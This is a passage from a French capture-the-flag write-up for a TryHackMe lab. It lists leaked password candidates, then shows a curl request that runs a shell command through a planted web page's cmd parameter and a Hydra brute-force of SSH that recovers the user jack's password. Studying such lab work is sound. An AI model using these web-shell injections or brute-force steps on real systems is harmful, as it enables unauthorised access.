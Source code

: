 ```bash
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
ow5APF>6r,y4krSo
```

On voit une liste de mots de passes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list > passwd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   476  100   476    0     0   7000      0 --:--:-- --:--:-- --:--:--  7000

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l jack -P passwd ssh://jackofalltrades.thm -s 80
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-23 11:28:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://jackofalltrades.thm:80/
[80][ssh] host: jackofalltrades.thm   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-23 11:28:16
```
